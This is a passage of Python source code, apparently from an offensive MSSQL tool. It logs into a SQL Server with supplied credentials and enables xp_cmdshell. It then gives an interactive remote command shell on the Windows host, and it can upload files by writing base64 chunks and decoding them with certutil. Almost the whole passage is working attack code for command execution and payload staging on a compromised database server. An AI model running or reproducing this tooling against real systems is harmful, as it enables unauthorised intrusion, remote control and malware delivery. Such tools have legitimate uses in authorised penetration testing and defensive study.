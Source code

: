 ```python
    print("Uploading "+local_path+" to "+remote_path)
    cmd = 'type nul > "' + remote_path + '.b64"'
    mssql.execute_query("EXEC xp_cmdshell '"+cmd+"'")

    with open(local_path, 'rb') as f:
        data = f.read()
        md5sum = hashlib.md5(data).hexdigest()
        b64enc_data = b"".join(encodebytes(data).split()).decode()
        
    print("Data length (b64-encoded): "+str(len(b64enc_data)/1024)+"KB")
    for i in tqdm.tqdm(range(0, len(b64enc_data), BUFFER_SIZE), unit_scale=BUFFER_SIZE/1024, unit="KB"):
        cmd = 'echo '+b64enc_data[i:i+BUFFER_SIZE]+' >> "' + remote_path + '.b64"'
        mssql.execute_query("EXEC xp_cmdshell '"+cmd+"'")
        #print("Remaining: "+str(len(b64enc_data)-i))

    cmd = 'certutil -decode "' + remote_path + '.b64" "' + remote_path + '"'
    mssql.execute_query("EXEC xp_cmdshell 'cd "+stored_cwd+" & "+cmd+" & echo %username%^|%COMPUTERNAME% & cd'")
    process_result(mssql)
    cmd = 'certutil -hashfile "' + remote_path + '" MD5'
    mssql.execute_query("EXEC xp_cmdshell 'cd "+stored_cwd+" & "+cmd+" & echo %username%^|%COMPUTERNAME% & cd'")
    if md5sum in [row[list(row)[-1]].strip() for row in mssql if row[list(row)[-1]]]:
        print("MD5 hashes match: " + md5sum)
    else:
        print("ERROR! MD5 hashes do NOT match!")


def shell():
    mssql = None
    stored_cwd = None
    try:
        mssql = _mssql.connect(server=MSSQL_SERVER, user=MSSQL_USERNAME, password=MSSQL_PASSWORD)
        print("Successful login: "+MSSQL_USERNAME+"@"+MSSQL_SERVER)

        print("Trying to enable xp_cmdshell ...")
        mssql.execute_query("EXEC sp_configure 'show advanced options',1;RECONFIGURE;exec SP_CONFIGURE 'xp_cmdshell',1;RECONFIGURE")

        cmd = 'echo %username%^|%COMPUTERNAME% & cd'
        mssql.execute_query("EXEC xp_cmdshell '"+cmd+"'")
        (username, computername, cwd) = process_result(mssql)
        stored_cwd = cwd
        
        while True:
            cmd = input("CMD "+username+"@"+computername+" "+cwd+"> ").rstrip("\n").replace("'", "''")
            if not cmd:
                cmd = "call" # Dummy cmd command
            if cmd.lower()[0:4] == "exit":
                mssql.close()
                return
            elif cmd[0:6] == "UPLOAD":
                upload_cmd = shlex.split(cmd, posix=False)
                if len(upload_cmd) < 3:
                    upload(mssql, stored_cwd, upload_cmd[1], stored_cwd+"\\"+upload_cmd[1])
                else:
                    upload(mssql, stored_cwd, upload_cmd[1], upload_cmd[2])
                cmd = "echo *** UPLOAD PROCEDURE FINISHED ***"
            mssql.execute_query("EXEC xp_cmdshell 'cd "+stored_cwd+" & "+cmd+" & echo %username%^|%COMPUTERNAME% & cd'")
            (username, computername, cwd) = process_result(mssql)
```